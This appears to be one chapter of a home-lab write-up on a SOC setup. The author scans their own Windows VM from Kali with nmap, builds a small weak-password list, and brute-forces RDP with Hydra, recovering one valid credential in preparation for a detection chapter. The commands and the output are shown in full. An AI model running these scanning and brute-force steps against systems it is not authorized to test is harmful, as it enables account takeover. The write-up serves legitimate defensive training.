




# 05 — Attack Simulation from Kali

With the SOC side (manager + agent + Sysmon) wired up, I switched to the attacker's seat: Kali, on the same NAT Network, treating the Windows box as a target the way an attacker who'd landed on the internal network might.

> Everything below targets a VM I own on an isolated virtual network. Same tools, run against anything you don't have explicit written authorization to test, are illegal.

## Recon: nmap service scan

```bash
nmap -sV -T4 <windows-ip>
```

- `-sV` — probe open ports to determine service/version
- `-T4` — faster timing template, fine for a local lab network

```
Starting Nmap 7.99 ( https://nmap.org ) at 2026-09-15 17:58 -0400
Nmap scan report for <windows-ip>
Host is up (0.0012s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
5357/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
MAC Address: 08:00:27:2B:C2:02 (Oracle VirtualBox virtual NIC)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```



Worth calling out: **RDP (3389) doesn't show up here** — it landed in the "filtered, no-response" bucket along with 996 other ports. Windows Firewall on this box is set to not respond to unsolicited probes on most ports, so a version scan alone under-reports what's actually reachable. In a real engagement I'd have followed up with a full-range scan (`-p-`) and a UDP sweep, and cross-referenced with whatever the client/scope told me was supposed to be running. For this lab, I already knew 3389 was open (I'd enabled RDP on the Windows box myself), so I moved straight to testing it directly.

## Building a password wordlist

Rather than pulling down `rockyou.txt` for what's a tiny, deliberately weak lab account, I hand-built a small list mixing common weak passwords with a couple of "looks kind of okay but isn't" ones, using a heredoc:

```bash
mkdir -p ~/wordlists
cat << EOF > ~/wordlists/passwords.txt
password123
admin123
Password1
letmein
qwerty123
Welcome1
Summer2024
P@ssw0rd
Password123!
Admin@123
EOF
```



Closing the heredoc with `EOF`:



## Brute-forcing RDP with Hydra

```bash
hydra -l <known-username> -P ~/wordlists/passwords.txt rdp://<windows-ip> -t 4
```

- `-l` — single known username (I already knew the local account name; a real attack would need a username list too, `-L`)
- `-P` — password list to try
- `-t 4` — 4 parallel tasks (RDP's module in Hydra is flagged experimental and doesn't like high concurrency — pushing this higher just gave me more `freerdp: connection failed` noise)

```
Hydra v9.7 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in mi
litary or secret service organizations, or for illegal purposes (this is bin
ding, these *** ignore laws and ethics anyway).

[WARNING] the rdp module is experimental. Please test, report - and if possible,
 fix.
[DATA] max 4 tasks per 1 server, overall 4 tasks, 11 login tries (l:1/p:11), ~3
 tries per task
[ERROR] freerdp: The connection failed to establish.
[ERROR] freerdp: The connection failed to establish.
[3389][rdp] host: <windows-ip>   login: <username>   password: <the-one-that-worked>
1 of 1 target successfully completed, 1 valid password found
```



11 attempts, a handful of `freerdp` connection errors along the way (the RDP module in Hydra really is flaky — expect noise even against a live host), and one valid credential pair at the end. That's the attack. Now to go see what the SOC side actually caught.

**Next:** [06 — Detection & MITRE Mapping](06-detection-and-mitre-mapping.md)
